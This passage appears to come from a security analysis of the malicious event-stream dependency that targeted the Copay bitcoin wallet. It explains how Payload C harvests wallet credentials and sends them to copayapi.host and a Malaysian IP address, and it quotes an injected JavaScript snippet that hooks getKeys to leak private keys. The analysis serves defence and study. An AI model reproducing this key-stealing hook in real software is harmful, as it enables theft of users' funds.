 Payload B demonstrates profound knowledge of Copay's internal workings
by the attackers, as they were aware of Copay's build scripts, as well
as the package's use of the `ReedSolomonDecoder.js` file.

## Payload C 

Payload C acts as the harvester, and is executed when Copay loads
`ReedSolomonDecoder.js`. It consists of several functions working
together, including the auxiliary `prepRequest`,
`sendRequest`, and `getFromStorage` functions. The common
theme across all the functions of this Payload, is that they reproduce
the original behaviour as to suggest that no suspicious activity is
taking place at all.

Function `prepRequest` prepares a payload [^3] to be sent by
function `sendRequest`. The payload gets encrypted using the public
key provided by the attacker. Function `sendRequest` takes as
arguments an IP address, a path, and a payload. It then sends the
payload as a string to the host inputted on the specified path. Then,
the payload is sent to `copayapi.host` and
`111.90.151.134`---a web-server based in Kuala Lumpur, Malaysia.
Function `getFromStorage` stores the contents of a file in a
variable and then parses it to a callback function. It does so by first
detecting the current environment: Mobile, Cordova or Electron.

The order of execution is as follows:

1.  Using `getFromStorage`, the user's credentials are retrieved
    and passed to a callback function

2.  The callback function ensures that it is being run on the live
    Bitcoin network, labeled `livenet`.

3.  The callback functions checks the balance of the user; if it exceeds
    100 BTC or 1000 BCH it marks the account using a global variable.

4.  The account credentials are finally sent using the
    `prepRequest` and `sendRequest` functions, regardless of
    the account balance.

The injected code proceeds with the following process:

``` {.js xleftmargin="\\parindent" linenos="" fontsize="\\normalsize"}
var Cred = require("wallet-client/lib/credentials.js");
Cred.prototype.getKeysFunc = e.prototype.getKeys;
Cred.prototype.getKeys = function(e) {
 var t = this.getKeysFunc(e);
 try {
  if (global.CSSMap &&
   global.CSSMap[this.xPubKey]) {
   delete global.CSSMap[this.xPubKey];
   prepRequest("p", e + "\t" + this.xPubKey))
  }
 } catch (e) {}
 return t
}
```


[^1]: User's \@right9ctrl GitHub account is now deleted.
[^2]: Minification is the process of removing comments, non-essential
[^3]: Not to be confused with the malicious code payloads